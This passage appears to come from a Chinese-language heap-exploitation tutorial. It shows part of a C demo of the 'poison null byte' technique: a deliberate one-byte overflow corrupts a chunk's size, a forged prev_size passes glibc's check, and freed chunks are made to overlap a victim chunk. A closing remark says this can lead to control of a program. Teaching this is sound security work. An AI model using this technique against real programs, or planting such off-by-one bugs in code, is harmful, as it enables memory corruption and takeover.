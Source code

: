  ```c
     fprintf(stderr, "b: %p\n", b);
     c = (uint8_t*) malloc(0x100);
     fprintf(stderr, "c: %p\n", c);
 
     barrier =  malloc(0x100);
     fprintf(stderr, "另外再申请了一个 chunk c：%p，防止 free 的时候与 top chunk 发生合并的情况\n", barrier);
 
     uint64_t* b_size_ptr = (uint64_t*)(b - 8);
     fprintf(stderr, "会检查 chunk size 与 next chunk 的 prev_size 是否相等，所以要在后面一个 0x200 来绕过检查\n");
     *(size_t*)(b+0x1f0) = 0x200;
 
     free(b);
     
     fprintf(stderr, "b 的 size: %#lx\n", *b_size_ptr);
     fprintf(stderr, "假设我们写 chunk a 的时候多写了一个 0x00 在 b 的 size 的 p 位上\n");
     a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
     fprintf(stderr, "b 现在的 size: %#lx\n", *b_size_ptr);
 
     uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
     fprintf(stderr, "c 的 prev_size 是 %#lx\n",*c_prev_size_ptr);
 
     fprintf(stderr, "但他根据 chunk b 的 size 找的时候会找到 b+0x1f0 那里，我们将会成功绕过 chunk 的检测 chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
     b1 = malloc(0x100);
 
     fprintf(stderr, "申请一个 0x100 大小的 b1: %p\n",b1);
     fprintf(stderr, "现在我们 malloc 了 b1 他将会放在 b 的位置，这时候 c 的 prev_size 依然是: %#lx\n",*c_prev_size_ptr);
     fprintf(stderr, "但是我们之前写 0x200 那个地方已经改成了: %lx\n",*(((uint64_t*)c)-4));
     fprintf(stderr, "接下来 malloc 'b2', 作为 'victim' chunk.\n");
 
     b2 = malloc(0x80);
     fprintf(stderr, "b2 申请在: %p\n",b2);
 
     memset(b2,'B',0x80);
     fprintf(stderr, "现在 b2 填充的内容是:\n%s\n",b2);
     fprintf(stderr, "现在对 b1 和 c 进行 free 因为 c 的 prev_size 是 0x210，所以会把他俩给合并，但是这时候里面还包含 b2 呐.\n");
 
     free(b1);
     free(c);
     
     fprintf(stderr, "这时候我们申请一个 0x300 大小的 chunk 就可以覆盖着 b2 了\n");
     d = malloc(0x300);
     fprintf(stderr, "d 申请到了: %p，我们填充一下 d 为 \"D\"\n",d);
     memset(d,'D',0x300);
     fprintf(stderr, "现在 b2 的内容就是:\n%s\n",b2);
 }
 ```

​    该技术适用的场景需要某个malloc的内存区域存在一个单字节溢出漏洞。通过溢出下一个chunk的size字段，攻击者能够在堆中创造出重叠的内存块，从而达到改写其他数据的目的。再结合其他的利用方式，同样能够获得程序的控制权。
